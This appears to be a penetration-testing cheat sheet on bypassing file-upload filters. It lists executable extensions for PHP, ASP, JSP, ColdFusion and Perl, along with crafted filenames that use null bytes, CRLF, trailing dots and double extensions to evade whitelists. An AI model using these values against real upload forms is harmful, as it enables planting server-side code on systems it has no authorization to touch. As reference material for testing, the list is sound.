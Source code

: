 
### File Upload Bypass

#### Blacklisting Bypass

**PHP**: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

**ASP**: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml

**Jsp**: .jsp, .jspx, .jsw, .jsv, .jspf

**Coldfusion**: .cfm, .cfml, .cfc, .dbm

**Perl**: .pl, .cgi

**Using random capitalization**: .pHp, .pHP5, .PhAr

#### Whitelisting Bypass

- file.png.php
- file.png.Php5
- file.php%20
- file.php%0a
- file.php%00
- file.php%0d%0a
- file.php/
- file.php.\
- file.
- file.php....
- file.pHp5....
- file.png.php
- file.png.pHp5
- file.php#.png
- file.php%00.png
- file.php\x00.png
- file.php%0a.png
- file.php%0d%0a.png
- file.phpJunk123png
- file.png.jpg.php
- file.php%00.png%00.jpg
```
